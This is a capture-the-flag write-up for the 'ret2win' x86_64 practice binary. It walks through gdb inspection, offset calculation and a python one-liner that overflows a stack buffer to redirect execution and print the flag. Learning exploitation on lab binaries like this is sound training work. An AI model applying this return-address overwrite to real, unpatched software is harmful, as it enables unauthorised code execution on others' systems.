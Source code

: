 
### ret2win x86 64

Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.

Use gdb to gather information.
```
gdb ./ret2win
```
Check the security of ret2win.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.

List all functions.
```
gdb$ info functions
```
```
...
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
```
There is indeed a function called ret2win.

Disassembly ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x0000000000400764 <+14>:    mov    edi,0x400943
0x0000000000400769 <+19>:    call   0x400560 <system@plt>
...
```
The address of the syscall is 0x0000000000400764.

Overflow length will be 32 bytes(buffer) + 8 bytes (RBP) = 40 bytes.

Therefore, the overflow strings will be:
```
'A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'" | ./ret2win
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
